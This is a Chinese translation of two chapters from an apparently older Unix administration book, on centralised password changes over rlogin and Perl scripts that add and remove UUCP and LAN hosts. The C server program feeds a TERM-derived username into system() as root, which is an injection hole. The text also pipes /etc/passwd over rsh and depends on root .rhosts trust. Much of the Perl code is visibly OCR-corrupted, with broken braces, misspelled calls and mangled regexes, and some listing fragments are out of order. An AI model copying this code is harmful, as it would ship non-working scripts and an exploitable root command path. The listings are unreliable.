程序 passwd::0:10:更改密码账户::/etc/passwd 从 TERM 变量中获取用户名，这个变量是 rlogin 从客户端传递给我们的。它询问用户的旧密码，如果正确，则执行 /bin/passwd <user>。该程序完全没有特权，但以 root 身份运行，因此它继承了正常的（极简的）root 环境。这使它能够使用用户名执行 /bin/passwd，并让 /bin/passwd 提示输入新密码。以下伪代码展示了这一过程。

```
user=getenv(TERM)
if (encrypt(getpass()) == getpwent(user)->pw_passwd)
    system("/bin/passwd user")
else
    printf("Sorry.")
fi
```

真正的代码位于服务器 passwd 程序中（清单 15.2）。

## 清单 15.2（续）

```
rc = changePass(p,remoteName);
(void) exit(rc);
/*NOTREACHED*/
}

int
changePass(p,name) struct passwd *p; char *name; {
    char            *oldPasswd, *getpass(), *thing, *crypt(),
                    salt[2], buffer[MAXLINE];

    (void) fprintf(stderr,"Changing password for %s.\n",name);
    oldPasswd = getpass("Old password: ");
    salt[0] = p->pw_passwd[0];
    salt[1] = p->pw_passwd[1];
    thing = crypt(oldPasswd,salt);
#ifdef DEBUG
    (void) printf(stderr,"entered %s,old=%s,new=%s\n",
        oldPasswd,p->pw_passwd,thing);
#endif
    if (strncmp(thing,p->pw_passwd,13) != 0) {
        (void) fprintf(stderr,"Sorry\n");
        return NO;
    }
```

到目前为止，你已经运行了一个脚本 rlogin 和另外两个程序 passwd 和 passwd，而这一切只是为了提示输入新密码。为了让流程更清楚一点，请参见图 15.1 中的协议图。

## 清单 15.2（续）

```
(void) sprintf(buffer,"/bin/passwd %s",name);
if (system(buffer) == 0) {
    (void) fprintf(stderr,"Your password will be distributed within the hour.\r\n");
    return YES;
} else {
    return NO;
}
```

## 图 15.1 密码协议图：显示在客户端和服务器上运行的进程

在客户端

用户运行 /bin/passwd。

passwd 显示“正在连接。”
passwd 通过 rlogin 登录服务器。

用户输入旧密码。

用户输入新密码。

用户再次输入密码。

在服务器端

服务器运行 passwd。

passwd 显示“旧密码。”

passwd 校验密码。
如果有效，则执行 /bin/passwd。
passwd 显示“新密码。”

passwd 再次询问密码。

passwd 更新 /etc/passwd。

## 第二部分

现在，你需要将更新后的密码文件传送到客户端。这看起来更难，但实际上容易得多：cron 至少可以使用五种很不错的方法。

## 备选方案

主要有两组程序可用于传输更新后的密码文件：Berkeley r 命令和 NFS。ftp 和 tftp 也可以，但可能存在安全问题。

## 使用 Berkeley r 命令

rdist 很方便，因为它会在传输后运行一个脚本。因此，它不需要在客户端上设置 crontab 条目。rdist 特别适合集中式实现，在这种实现中，所有客户端都信任来自中央密码服务器的 rsh 命令。

track 也很好。它严格地将密码服务从服务器“拉取”到订阅该服务的客户端。track 反转了 r 命令的信任关系：服务器信任客户端，这更有利于去中心化。

如果 rdist 或 track 无法在你的所有机器上工作，那么可以使用 rcp 复制文件，并使用 rsh 运行安装命令。不过，rcp 和 rsh 可能会静默失败。

你也可以使用 rsh server cat /etc/passwd | cat >safe-place 来模拟 rcp，即使在最糟糕的系统上也能可靠地工作，比如我曾经管理过的一台“ursus horribilis”（可怕的熊）。

## 使用 NFS

NFS 是另一种很好的方法，它的访问控制与 r 命令截然不同：服务器将包含数据的文件系统导出到有限的一组客户端。

## 使用 ftp

ftp 也能工作，但代价是需要找到非交互式的 ftp 程序，并冒着在网络上以明文发送 ftp 密码的风险。

## 使用 tftp

嗯，也许吧，如果你真的不介意骇客的话。


## 转移更新后的密码文件

在所有这些情况下，更新后的密码文件会被存放在一个“安全”的位置（一个空间充足的分区），然后一个脚本会将其复制到 /etc/passwd，并进行适当的安全检查。该脚本可以像以下伪代码示例一样简单。

```
if [! -f /etc/ptmp ]; then
cp /some/safe/place/in/root /etc/ptmp
mv /etc/ptmp /etc/passwd
fi
```

这几乎就是我所做的，但没有竞态条件。代码位于客户端密码更新脚本中（清单 15.3）。

## 清单 15.3 客户端密码更新脚本将更新后的密码文件存放在一个空间充足的分区中，然后将其复制到 /etc/passwd 并进行适当的安全检查。

```
#!/bin/sh
#
# passwd-update -- update /etc/passwd from a copy of the master.
# Spends most of its time checking to see if it succeeded.
#
SAFEPLACE=/usr/local/etc/passwd # Place where the master puts it.
SAFEMINIMUM=25 # Smallest allowable /etc/passwd file size, in lines.

if ccopy $SAFEPLACE /etc/ptmp; then
: It was ok.
else
echo "$0: /etc/ptmp exists, therefore the /etc/passwd file"
echo " is locked. Try again later, please."
exit 0
fi
```

## 清单 15.4 客户端 ccopy 程序用于客户端密码更新脚本。

```
/*
 * ccopy - copy only if the target file does not exist. Used
 * to avoid race conditions. This is a classical unix
 * lock file creation mechanism: it's an atomic action.
 */
#include 
#include  /* For open(2). */
#include  /* For umask and fstat(2). */
#include 
#include  /* For error reporting. */
extern int sys_nerr;
extern char *sys_errlist[];

#define USERRR 1  /* Parameters messed up or missing. */
#define EXISTS 2  /* File exists, try again later. */
#define REALERR 3  /* Something bad happened. */
#define ERR (-1)  /* System's normal error value. */

char *ProgName = NULL; /* Name (ie, ccopy) for error reports. */
main(argc, argv) int argc; char *argv[]; {
    ProgName = argv[0];
    if (argc != 3) {
        (void) fprintf(stderr, "%s: Error - you must supply
        exactly two filenames.\n", ProgName);
        (void) fprintf(stderr, "%s - copy one file to another
        IFF the second doesn't exist\n", ProgName);
        (void) fprintf(stderr, "Usage: %s infile outfile\n",
        ProgName);
        exit(USERRR);
    }
    exit(ccopy(argv[1],argv[2]));
    /*NOTREACHED*/
}
```

## 但它安全吗？

安全性在这里在两个方面抬头：服务器上的安全性和传输通道的安全性。在服务器上，你面临提供一个无密码的特权账户或一个无密码的特权程序。这听起来很可怕，但事实上，这组程序的组合安全性与 /bin/passwd 的安全性完全一样。新增的程序仅验证一个人的身份，然后运行 /bin/passwd。很容易阅读程序并确信它只做了它声称的事情。阅读 /bin/passwd 就更难了，你可能有也可能没有它的源代码。

```
oldUmask = umask((mode_t)0);
if ((outFd = open(outFile,O_CREAT|O_EXCL | O_WRONLY | O_TRUNC,
    status.st_mode)) == ERR) {
    switch (errno) {
    case EEXIST:
        rc = EXISTS;
        sayExists(outFile);
        break;
    default:
        rc = REALERR;
        sayOpenError(outFile,O_WRONLY,errno);
        break;
    }
    (void) umask(oldUmask);
    return rc;
}
while ((nread = read(inFd,buf,sizeof(buf))) != 0) {
    if (write(outFd,buf,nread) != nread) {
        rc = REALERR;
        sayWriteError(outFile,errno);
        break;
    }
}

(void) umask(oldUmask);

(void) close(inFd);
if (close(outFd) == ERR) {
    sayWriteError(outFile,errno);
    rc = REALERR;
}
return 0;
```

SUID root 程序存在一个额外的风险。因为它们通常从用户的账户开始运行，所以它们必须非常小心地设置其 $PATH、共享库搜索路径等等。在我们的例子中，我们总是从系统管理员控制下的账户运行，因此我们只需要使环境与 root 相同。出于这个原因，passwd 是该账户的 shell，且环境非常精简。

```
/*
 * error reporters -- for open, existence and write errors.
 */
sayExists(outFile) char *outFile; {
    (void) fprintf(stderr, "%s: Error - file %s already exists,\n"
                   "    try again later.\n", ProgName,outFile);
    return;
}

sayOpenError(name,readWriteOrStat,errno) char *name;
    int readWriteOrStat, errno;
    char *operation;
{
    switch (readWriteOrStat) {
    case R_OK:
        operation = "stat input";
        break;
    case O_RDONLY:
        operation = "read input";
        break;
    case O_WRONLY:
        operation = "create output";
        break;
    }
    (void) fprintf(stderr, "%s: can't %s file \"%s\", %s (errno %d).\n"
                   "    halting.\n", ProgName, operation, name,
                   (errno < sys_nerr) ? sys_errlist[errno] :
                   "Unknown error", errno);
    return;
}
```


## 网络安全

你应当意识到网络安全中存在两大问题：在网络上窃听以及信任错误的服务器。窃听在任何允许任意用户收集数据包（packets）的站点都是一个难题。就目前所讨论的系统而言，它可能让某人捕获用户更改密码时的全部按键记录。这与有人窃听 telnet 会话并看着你修改密码一样糟糕。信任错误的服务器也是一个问题，因为使用任何 r 命令都需要各台机器上的 root `.rhosts` 文件，而使用 NFS 则需要导出敏感文件。

不过，这两个问题都非常容易解决。如果你已经弄清了 `.rhosts` 或导出（exports）对组织的影响，只需检查并确保允许 rsh 和 NFS 支持密码更新不会破坏你的信任规则即可。如果你是小型环境、在家中或位于防火墙之后，可能无需过多担心。如果你确实需要与选定机器建立安全、不可窃听且可信的通道，可以使用若干程序与其他机器建立加密连接：要么使用 ssh（Secure SHell），要么使用 IETF 的新的 skip 程序。

### 清单 15.4（续）

```c
sayWriteError(name,errno) char *name; int errno; {

(void) fprintf(stderr, "%s: Error writing and closing output
file "%s". %s (errno %d), halting.\n",
ProgName, name, (errno < sys_nerr)?
sys_errlist[errno]: "Unknown error", errno);
(void) fprintf(stderr, "%s: please inspect and remove remnant
of "%s".\n", ProgName,name);
return;
}
```

## 自动化网络维护

Arthur Donkers

在这个在线媒体和互联网瞬息万变的时代，保持一致且可靠的网络配置至关重要。本章讨论网络管理员可以使用的若干程序，用于自动化在网络配置数据库中添加和删除用户及系统的过程。

### 简介

每当网络管理员向网络中添加一个节点时，都会随之带来一定数量的后续工作。向网络环境中添加用户时也是如此，无论是交互式用户，还是用于拨号网络访问的“虚拟”用户。你可能已经体会到，当你一遍又一遍地做同样的工作时，往往会有所疏忽，变得有些粗心大意（至少我是这样！）。我编写了几个 Perl 程序来帮助自动化这些工作。当你想要添加或删除主机或用户时，只需编辑一两个文件，软件便会（几乎）“自动神奇地”完成其余工作。

由于网络和拨号访问的多样性，我将该软件分成了三个部分。第一部分负责 UUCP 连接，用于在离开办公室时访问邮件。第二部分用于局域网（即 TCP/IP）访问，这是访问网络服务的“常规”方式。第三部分是前两部分共用的，在两种情况下都会用到。请注意，这些程序仍处于实验阶段，应根据你自身具体的环境和需求进行调整。

### 环境配置

我使用了以下网络软件包。

-   Taylor UUCP v1.06.1
-   Sendmail v8.6.12
-   CNews（Cleanup Release，1995 年 4 月）

你可以在互联网上的许多站点找到它们——通过 archie 或 WAIS 搜索会指向离你最近的位置。

我在一台运行 Solaris v2.4 的 SPARCstation 上运行此软件。Taylor UUCP 软件包取代了 Solaris 自带的 UUCP，Sendmail 软件也是如此。这台机器不运行 NIS 或 NIS+，因为网络上没有 NIS 客户端。如果你想扩展本章中的软件以支持 NIS(+)，请随意。如果你将这些扩展发送给我，我可以将其添加到软件包中。

这台 SPARCstation 是中心网络服务器。它运行自带的 named（域名解析服务）、名称解析器，以及我们的邮件和新闻服务器软件。人们可以通过局域网联系这台机器来收取邮件和阅读 Usenet 新闻。对于通过 UUCP 拨号链路连接的用户，它会将所有外发流量打包成 UUCP 批次。

几乎所有网络维护都在此机器上完成，因此所有软件也都将在此机器上运行。如果你的环境设置与此不同，你可以拆分该软件，并将其分配到你网络中的不同机器上。

### 基本结构

这个软件的基本结构很简单。添加和删除主机由每小时运行一次的 cron 作业完成。UUCP 和 LAN 部分各有自己的 cron 作业。

要添加或删除的主机会被放入一个特殊文件中，该文件将由这个 cron 作业读取。这个文件对于 UUCP 连接是 `/etc/maint/site.uucp`，对于 LAN 连接是 `/etc/maint/site.lan`。读取完此文件后，cron 作业会将其删除，这样作业在下一轮就不会再遇到它。这两个文件的格式并不完全相同，但颇为相似。


## Listing 16.1 (continued)

```
#$trigger = "*/etc/maint/site";
#$newsconf = "/usr/local/lib/news/sys";
#$passwd = "/etc/passwd";
#$group = "/etc/group";
$trigger = "testsite";
$newsconf = "newsys";
$passwd = "passwd";
$group = "group"

# UUCP related config files
#$pending = "/etc/pending.uucp";
#$uucconf = "/usr/local/lib/uucp/config/sys";
#$newsbat = "/usr/local/lib/news/batchparms";
#$mailnam = "/etc/mail/sendmail.uunames";
$pending = "pending.uucp";
$uucconf = "uucp";
$newsbat = "batchparms";
$mailnam = "sendmail.uunames";
$uustat = "/usr/bin/uustat"

# LAN related config files
$newsnmtp = "/usr/local/lib/news/nntp_access";
$namedfwd = "/etc/inet.named.reseau.data";
$namedrev = "/etc/inet.named.rev.data";

# Globals
$config = "";

# List of systems to add and delete
@add = ();
@delete = ();

# Program starts executing here
die "Must be called as LAN or UUCP" if(&callconfig) eq "";

# See how we are called and behave appropriately
if( $config eq 'uucp' ) {
    $dpending = $pending if( -e $pending );
    &do uucp( $trigger, $config ) if( -e $trigger . "." $config );
} else {
    &do lan( $trigger, $config ) if( -e $trigger . "." $config );
}
exit 0;

# End of execution
#
# Subroutines are listed below

# What are we called ?
sub callconfig
{
    $config = "";
    if ($0 =~ /\.maint/site.uucp/) { $config = 'uucp'; }
    elsif ($0 =~ /\.maint/site.lan/) { $config = 'lan'; }
    return $config;
}
# callconfig
```

## Automating Your Network Maintenance — 189

正如前面所说，我在这个系统上使用 Taylor UUCP。Taylor UUCP 的一个优点是它可以支持多种不同的 UUCP 配置格式。原生的 Taylor UUCP 格式是最灵活的。它还具有描述性配置，提供最多的功能。众所周知的 HDB 格式。对于真正的硬核用户，它还支持 V2 风格。在构建 Taylor UUCP 时，你可以指定希望支持哪些格式。可以支持多种格式，但这无疑会使事情复杂化。

```
# The UUCP main entry point
sub dooucp {
local($trigger ) = @;
local($busy, $sysnam);
$busy = $trigger . ".busy";
link $trigger, $busy || warn "Cannot rename $trigger, $!\n" & return;
unlink $trigger;
open TRIGGER, "$busy" || warn "Cannot open $trigger, $!\n" && unlink $busy && return;
while (<TRIGGER>) {
chomp;
if (/\^\n\.,\*/) ||
$sysnam = substr $_, 1;
$add{$sysnam} = 1;
}
if (/\^\n\.,\*/) ||
$sysnam = substr $_, 1;
delete($sysnam) = 1;
}
close TRIGGER;
unlink $busy;
# We got a list of hosts to be added and hosts to be deleted
# First delete all hosts
&deluucp@mainnews[ ];
foreach $sysnam (keys %delete) |
if ($uucp@host($sysnam) ) |
&deluucp($sysnam) );
}
else {
if (-e $pending) { open PENDING, ">>$pendingfile"; }
else | open PENDING, ">>$pendingfile"; |
print PENDING "*$sysnam$24"";
}
close PENDING;
}
@ = keys %delete;
if ($#_ > 0) |
&notifuuucp("deleted", keys %delete);
```

作为额外的奖励，Taylor UUCP 附带一个特殊程序，称为 uuconv，它使你能够将 HDB 或 V2 风格的配置文件转换为 Taylor 文件，反之亦然。由于其灵活性，我使用 Taylor 格式的配置文件。然而，你可以轻松地将软件更改为 HDB 格式，要么使用 uuconv 程序，要么更改我使用的模板。

## Listing 16.1 (continued)

```
# Check the pending file for pending UUCP systems applicable for deletion
sub dopending
{
    local( $spendfile ) = @_; 
    local( $oldpendfile, $sysnam, $retry, $total, @deleted );

    $oldpendfile = $spendfile . ".old";
    link $spendfile, $oldpendfile;
    unlink $spendfile;
    $total = 0;

    # There is a pending file, read it
    open PENDING, "$oldpendfile" || warn "Cannot open file $oldpendfile, $!\n" && return;
    open NEWPENDING, ">$spendfile" || warn "Cannot create file $spendfile, $!\n" && unlink $oldpendfile;
    &link $oldpendfile, $spendfile & unlink $oldpendfile;

    # Read host names from pending file
    while( <PENDING> ) {
        ($sysnam, $retry) = split /\s/;
        $retry = 0 if $retry == 0;
        if( &deluucp( $sysnam ) ) {
            push @deleted, $sysnam;
        }
        else {
            if( &uucpbatch( $sysnam ) ) {
                print NEWPENDING "$sysnam\t$retry\n";
                $total++;
            }
            else {
                &deluucp( $sysnam );
                push @deleted, $sysnam;
            }
        }
    }
    close PENDING;
    close NEWPENDING;
    unlink $oldpendfile;

    unlink $spendfile if( $total == 0 );
    &notifyuucp( "deleted", @deleted );
} # dopending
```


# 清单 16.1（续）

```
# Check system for pending batches
sub uucpbatch
{
    local( $sysnam ) = @_; 

    open UUSTAT, "uustat -s $sysnam" || warn "Cannot start $uustat, $!\n" && return 1;
    while( <UUSTAT> ) {
        close UUSTAT;
        return 1;
    }
    close UUSTAT;
    return 0;
}
# uucpbatch

# Delete one UUCP host from uucp configuration
sub deluucp
{
    local( $deleteme ) = @_; 
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Back up older versions
    &backupfile( $uuconf );
    $backup = $uuconf . ".o";

    open ORIGINAL, "$backup" || warn "Cannot open $uuconf, $!\n" && link $backup, $uuconf && return;
    open NEW, ">$uuconf" || warn "Cannot create $uuconf, $!\n" && link $backup, $uuconf && return;

    while( <ORIGINAL> ) {
        if( /^\*START .*\$/ ) {
            chop;
            $sysnam = $.;
            $sysnam =~ s/^\*START //;
            if( $sysnam ne $deleteme ) {
                while( <ORIGINAL> ) {
                    last if (/^\*END .*\$/);
                }
            }
            else {
                print NEW;
                while( <ORIGINAL> ) {
                    print NEW;
                    last if ( /^\*END .*\$/);
                }
            }
        }
        else { print NEW; }
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $uuconf );
    &deluser( $deleteme );
}
# deluucp
```

## 将主机添加到 UUCP 配置

将主机添加到 UUCP 网络设置需要几个步骤。为简单起见，仅支持拨号 UUCP 连接。外出人员经常在路上，因此无法通过固定的电话号码联系到他们。第一步是将机器添加到已知 UUCP 主机列表中。这些是受信任的主机，允许拨入并传输数据。这些机器的列表保存在 Taylor 配置目录中名为 sys 的配置文件中。该配置目录通常位于 UUCP 用户主目录下名为 conf 的子目录中。这个 conf 文件相当于 HDB 中的 Systems 文件。

# 清单 16.1（续）

```
# Add UUCP host to uucp configuration
sub adduucp
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );
    # Back up older versions
    $backupfile = "$uucconf/";
    $backup = $uucconf . ".o";
    open ORIGINAL, "$backup" || warn "Cannot open $uucconf, $!\n" && link $backup, $uucconf && return;
    open NEW, ">$uucconf" || warn "Cannot create $uucconf, $!\n" && link $backup, $uucconf && return;
    while( <ORIGINAL > ) { print NEW; }
    close ORIGINAL;
    foreach $sysnam (keys %add) {
        print NEW <<EOF
#START $sysnam
system $sysnam
time Never
baud 38400
port Direct
phone *
called-login uucp$sysnam
send-request yes
receive-request yes
called-transfer yes
remote-send /usr/spool/uucppublic /usr/spool/news
local-receive /usr/spool/uucppublic /usr/spool/news
remote-receive /bin/rmail /usr/local/lib/news/bin/rnews
myname lrnate
#END $sysnam
EOF
    }
    $adduser( $sysnam );
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $uucconf );
}
# adduucp
```

# 清单 16.1（续）

```
# Notify root of successful action for UUCP
sub notifyuucp
{
    local( $action, @hostlist ) = @_;

    open MAILTO, "|mail root" || warn "Cannot start mail program, $!\n" && return;
    print MAILTO <<EOF
Subject: UUCP hosts $action.

The following UUCP hosts have been $action :

@hostlist
EOF
    ; # notifyuucp

# Notify root of successful action for LAN
sub notifylan
{
    local( $action, @hostlist ) = @_;

    open MAILTO, "|mail root" || warn "Cannot start mail program, $!\n" && return;
    print MAILTO <<EOF
Subject: LAN hosts $action.

The following LAN hosts have been $action :

@hostlist
EOF
    ; # notifylan

# Delete host from news config for LAN
sub delnews lan
{
    # First the nntp access
    &delnntp( );
    # Secondly the sys file
    &delnews( );
} # delnews lan

# Add host to news config for LAN
sub addnews lan
{
    # First the nntp access
    &addnntp( );
    # Secondly the sys file
    &addnews( );
} # addnews lan

# Delete host from news and news config for UUCP
sub deluucp mailnews
{
    # First the batch params
    &delbatch( );
    # Secondly the mail setup
    &delmail( );
    # Lastly the sys file
    &delnews( );
} # deluucp mailnews
```


向此文件添加主机是通过添加描述该主机特征的若干配置行来完成的。这些特征在不同主机之间大多相同，唯一的区别是 UUCP 机器的名称。要添加主机，只需填写一个模板文件并将其连接到现有的 sys 文件中。此模板中的 %% 标记将被 UUCP 机器的实际名称替换。为了以后能够删除主机，所添加的部分将由特殊的注释行分隔，这些注释行确定主机部分的开始和结束。模板显示在第 16.2 节清单中。如你所见，其中包含若干个 %% 标记，并且此主机部分的开始和结束均用 START 和 END 标记。

## Listing 16.1 (continued)

```
# Add host to news config for UUCP
sub adducpmanews
{
    # First the batch params
    $addbatch( );
    # Secondly the mail setup
    $addmail( );
    # Lastly the sys file
    $addnews( );
}
# adducpmanews

# Backup a file
sub backupfile
{
    local( $file ) = @_;
    local( $backup );

    # Back up older versions
    $backup = "$file"."~ooo";
    unlink $backup if( -e $backup );
    $backup = "$file"."~oo";
    rename $backup, "$backup"."~o" if( -e $backup );
    $backup = "$file"."~o";
    rename $backup, "$backup"."~o" if( -e $backup );
    rename $file, $backup;
}
# backupfile

# Set permissions on new file as they were on the old one
sub setperm
{
    local( $new, $old );

    ($dummy, $dummy, $mode, $dummy, $uid, $gid, $dummy) = stat $old;
    chown $uid, $gid, $new;
    chmod $mode, $new;
}
# setperm
```

## Listing 16.1 (continued)

```
# Delete all hosts from newsconfig
sub delnews
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Back up older versions
    &backupfile( $newsconf );
    $backup = $newsconf . "o";
    open ORIGINAL, "$backup" || warn "Cannot open $newsconf, $!\n" && link $backup, $newsconf && return;
    open NEW, ">$newsconf" || warn "Cannot create $newsconf, $!\n" && link $backup, $newsconf && return;

    while( <ORIGINAL> ) {
        ($sysnam, $dummy) = split /:/, $_, 2;
        if (lexists $delete{$sysnam}) {
            print NEW;
        }
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $newsconf );
}
# Delete all hosts from nntpconfig
sub delnntp
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Back up older versions
    &backupfile( $newsnntp );
    $backup = $newsnntp . "o";
    open ORIGINAL, "$backup" || warn "Cannot open $newsnntp, $!\n" && link $backup, $newsnntp && return;
    open NEW, ">$newsnntp" || warn "Cannot create $newsnntp, $!\n" && link $backup, $newsnntp && return;

    while( <ORIGINAL> ) {
        if( /^\s*#/ ) {
            print NEW;
            next;
        }
        $sysnam = $_;
        $sysnam =~ s/\s*\([^\),]*\)*,?//;
        chomp $sysnam;
        print NEW if (lexists $delete{$sysnam});
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $newsnntp );
}
# delnntp
```

在对 sys 文件进行更改之前，会保存一个备份。经验告诉我，有时一个备份是不够的——如果你犯了两次同样的错误，就丢失了原始文件。因此，会保留最多三个旧 sys 文件的历史记录。

## Listing 16.1 (continued)

```
# Delete all hosts from named
sub delnamed
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # First the forward mapping. Back up older versions
    &backupfile( $namedfwd );
    $backup = $namedfwd . ".0";
    open ORIGINAL, "$backup" || warn "Cannot open $namedfwd, $!\n" && link $backup, $namedfwd && return;
    open NEW, ">$namedfwd" || warn "Cannot create $namedfwd, $!\n" && link $backup, $namedfwd && return;

    while( <ORIGINAL> ) {
        if( /^;;/ ) {
            print NEW;
            next;
        }
        ($sysnam, $dummy) = split /\s/;
        print NEW if( !exists $delete{$sysnam} );
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $namedfwd );

    # Secondly the reverse mapping. Back up older versions
    &backupfile( $namedrev );
    $backup = $namedrev . ".0";
    open ORIGINAL, "$backup" || warn "Cannot open $namedrev, $!\n" && link $backup, $namedrev && return;
    open NEW, ">$namedrev" || warn "Cannot create $namedrev, $!\n" && link $backup, $namedrev && return;

    while( <ORIGINAL> ) {
        if( /^;;/ ) {
            print NEW;
            next;
        }
        ($dummy, $dummy, $sysnam) = split /\s+/;
        $sysnam =~ s/\[.*\]//;
        print NEW if( !exists $delete{$sysnam} );
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $namedrev );
}
# delnamed
```


## 清单 16.1（续）

```
# Add all hosts to newsconfig
sub addnews
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Back up older versions
    $backupfile = $newsconf;
    $backup = $newsconf . ".o";
    open ORIGINAL, "$backup" || warn "Cannot open $newsconf, $!\n" && link $backup, $newsconf && return;
    open NEW, ">$newsconf" || warn "Cannot create $newsconf, $!\n" && link $backup, $newsconf && return;

    while( <ORIGINAL> ) {print NEW;}
    close ORIGINAL;

    foreach $sysnam (keys %add) {
        print NEW <<EOF
$sysnam:news.misc.comp.eunet,hacktic.nl,ninet,reseau.to,$sysnam,all),general:
    f:$sysnam/togo
EOF
    }
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $newsconf );
}
# addnews

# Add all hosts to ntpnconfig
sub addntp
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Back up older versions
    $backupfile = $newsntp;
    $backup = $newsntp . ".o";
    open ORIGINAL, "$backup" || warn "Cannot open $newsntp, $!\n" && link $backup, $newsntp && return;
    open NEW, ">$newsntp" || warn "Cannot create $newsntp, $!\n" && link $backup, $newsntp && return;

    while( <ORIGINAL> ) {print NEW;}
    close ORIGINAL;

    foreach $sysnam (keys %add) {
        print NEW <<EOF
$sysnam.reseau.nl both post
EOF
    }
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $newsntp );
}
# addntp
```

远程系统允许发送和接收邮件和新闻，同时它还可以通过 UUCP 公共存储 /usr/spool/uucppublic 上传或下载文件。远程系统永远不会被呼叫（参见时间配置行）。最后，远程系统用于拨入的用户名称为 uuxqt。

## 清单 16.1（续）

```
# Add all hosts to named
sub addnamed
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );
    # First the forward mapping. Back up older versions
    &backupfile( $namedfwd );
    $backup = $namedfwd . ".o";
    open ORIGINAL, "$backup" || warn "Cannot open $namedfwd, $!\n" && link $backup, $namedfwd && return;
    open NEW, ">$namedfwd" || warn "Cannot create $namedfwd, $!\n" && link $backup, $namedfwd && return;
    while( <ORIGINAL> ) { print NEW;
    }
    close ORIGINAL;
    foreach $sysnam (keys %add) {
        print NEW <<EOF
$sysnam  IN  A  $add{$sysnam}
EOF
    }
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $namedfwd );
    # Secondly the reverse mapping. Back up older versions
    &backupfile( $namedrev );
    $backup = $namedrev . ".o";
    open ORIGINAL, "$backup" || warn "Cannot open $namedrev, $!\n" && link $backup, $namedrev && return;
    open NEW, ">$namedrev" || warn "Cannot create $namedrev, $!\n" && link $backup, $namedrev && return;
    while( <ORIGINAL> ) { print NEW;
    }
    close ORIGINAL;
    foreach $sysnam (keys %add) {
        local( $hostnum, $fullname );
        $fullname = $sysnam . ".reseau.nl.";
        $hostnum = $add{$sysnam};
        $hostnum =~ s/\./(10-9)+/\/1/;
        print NEW <<EOF
$hostnum PTR  $fullname
EOF
    }
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $namedrev );
}
# addnamed
```

## 清单 16.1（续）

```
sub kicknamed
open PID, "/etc/named.pid";
$pid = <PID>;
kill $SIGUP, $pid;
# kicknamed

# Delete all hosts from batchparms
sub delbatch
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Backup up older versions
    #backupfile( $swsbat, );
    $backup = $swsbat;
    open ORIGINAL, "$backup" || warn "Cannot open $swsbat, $!\n" && link $backup, $swsbat && return;
    open NEW, ">$swsbat" || warn "Cannot create $swsbat, $!\n" && link $backup, $swsbat && return;

    while( <ORIGINAL> ) {
        if( /^$sysnam/ ) {
            print NEW;
            next;
        }
        ($sysnam, $dummy) = split /:/;
        print NEW if (!exists $delete{$sysnam});
    }
    close ORIGINAL;
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $swsbat );
} # delbatch

# Add all hosts to batchparms
sub addbatch
{
    local( $sysnam, $backup, $dummy );
    local( $uid, $gid, $mode );

    # Backup up older versions
    #backupfile( $swsbat, );
    $backup = $swsbat;
    open ORIGINAL, "$backup" || warn "Cannot open $swsbat, $!\n" && link $backup, $swsbat && return;
    open NEW, ">$swsbat" || warn "Cannot create $swsbat, $!\n" && link $backup, $swsbat && return;

    while( <ORIGINAL> ) {print NEW;}
    close ORIGINAL;

    foreach $sysnam (keys %add) {
        print NEW <<EOF
$sysnam u 100000 20 batcher
| compun | v1uxx
EOF
    }
    close NEW;
    # Set ownership and permissions
    &setperm( $backup, $swsbat );
} # addbatch
```


如 Listing 16.1 所示，添加主机是在函数 addhost 中完成的。它会先扫描活动的 sys 文件，查看主机是否已存在。如果存在，它会向 root 发送警告邮件并退出。如果不存在，它会备份 sys 文件，打开模板，并将主机添加到 sys 文件的底部。sys 文件还会用新系统的名称替换 %%% 标记。

### Listing 16.1 (continued)

```
# Delete all hosts from sendmail.uunames
sub delmail
{
  local( $sysnam, $backup, $dummy );
  local( $uid, $gid, $mode );

# Back up older versions
&backupfile( $mailnam );
$backup = $mailnam . ".o";
open ORIGINAL, "$backup" || warn "Cannot open $mailnam, $!\n" && link $backup,
$mailnam && return;
open NEW, ">$mailnam" || warn "Cannot create $mailnam, $!\n" && link $backup,
$mailnam && return;

while( <ORIGINAL> ) {
  if( /^#/ || /^\s*$/ ) {
    print NEW;
  }
  next;
}
chomp;
print NEW if (exists $delete{$_});

close ORIGINAL;
close NEW;
# Set ownership and permissions
&setperm( $backup, $mailnam );
} # delmail

# Add all hosts to sendmail.uunames
sub addmail
{
  local( $sysnam, $backup, $dummy );
  local( $uid, $gid, $mode );

# Back up older versions
&backupfile( $mailnam );
$backup = $mailnam . ".o";
open ORIGINAL, "$backup" || warn "Cannot open $mailnam, $!\n" && link $backup,
$mailnam && return;
open NEW, ">$mailnam" || warn "Cannot create $mailnam, $!\n" && link $backup,
$mailnam && return;

while( <ORIGINAL> ) {print NEW $_;}
close ORIGINAL;

foreach $sysnam (keys %add) {
  print NEW "$sysnam\n";
}
close NEW;
# Set ownership and permissions
&setperm( $backup, $mailnam );
} # addmail
```

### Listing 16.1 (continued)

```
# Delete a user from the passwd and group file
sub deluser
{
    local( $usrnam ) = @_;
    local $nwfile;

    $usrnam = "wu" . $usrnam;

    # from the group file
    $nwfile = $group . ".new";
    open OLD, "$group" || warn "Cannot open $group, $!\n" && return;
    open NEW, "$nwfile" || warn "Cannot create $nwfile, $!\n" && close OLD && return;
    while (<OLD>) {
        if (/^$usrnam/) {
            s/,$usrnam//;
        }
        print NEW;
    }
    close OLD;
    close NEW;
    rename $group, $group . ".old";
